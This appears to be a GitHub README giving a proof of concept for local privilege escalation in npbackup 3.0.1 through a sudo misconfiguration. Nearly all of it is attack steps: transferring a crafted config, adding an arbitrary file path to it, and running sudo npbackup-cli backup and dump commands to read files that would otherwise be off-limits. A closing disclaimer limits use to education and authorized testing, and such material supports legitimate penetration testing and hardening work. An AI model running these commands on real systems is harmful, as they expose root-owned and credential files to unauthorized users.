

# ⚠️ npbackup Privilege Escalation - PoC

## 📌 Tested Version

- npbackup 3.0.1

---

## 🛠️ Proof of Concept

`npbackup` local privilege escalation via **Misconfiguration**.

### 📤 Deploy on Target Machine

1. **Transfer the `npbackup.conf`** file to the vulnerable machine.  
2. **Edit the configuration**: Add the path of the file or folder you want to read in line 11 of `npbackup.conf`.  
3. **Execute the backup command**:

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```


4. **Read a specific file from a snapshot** (replace `ADD_THE_SNAPSHOT_ID` with the actual snapshot ID shown in the snapshot list image):
```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump ADD_THE_FILE_YOU_WANNA_READ --snapshot-id ADD_THE_SNAPSHOT_ID
```

---

## ⚖️ Disclaimer and Terms

This Proof of Concept (PoC) is provided for **educational and authorized penetration testing purposes only**.

- **No permission** is granted to modify, redistribute, or use this code for any other purposes.  
- Unauthorized use or modification may be **illegal and unethical**.  
- The authors take **no responsibility** for any misuse or damages.
